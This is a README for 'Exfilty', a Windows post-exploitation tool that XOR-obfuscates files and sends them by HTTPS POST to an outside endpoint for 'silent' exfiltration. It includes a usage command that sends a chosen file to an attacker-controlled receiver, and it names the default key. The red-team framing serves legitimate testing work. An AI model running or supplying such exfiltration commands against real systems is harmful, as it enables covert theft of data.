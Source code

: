 # Exfilty

**Exfilty** is a lightweight file exfiltration utility for Windows environments, designed for use in controlled environments such as red team operations, malware analysis labs, and post-exploitation research.

The tool performs HTTPS POST-based file transfer to a specified endpoint, applying a simple XOR cipher to obfuscate the file contents in transit.

---

## 📦 Features

- Minimal and portable Windows executable
- XOR-based payload encoding (configurable key)
- HTTPS POST with custom User-Agent
- Designed for silent file transfers in restricted environments
- Output fully reconstructable via provided Python script

---

## 🔧 Usage
```bash
exfilty.exe https://your_endpoint> <file_to_exfiltrate>  # BurpSuite Collaborator recommended
```

The tool will read the file, apply XOR encryption using a predefined key, and send the result via HTTPS POST to the specified endpoint.

---

## 🔑 Encryption Logic

Exfilty uses a symmetric XOR cipher with a static key (`secreta123` by default). This key must match on both ends of communication (sender and receiver).

You can reconstruct the original file using the provided `remounter.py` script:

```bash
python3 remounter.py <encrypted_file> <output_file>

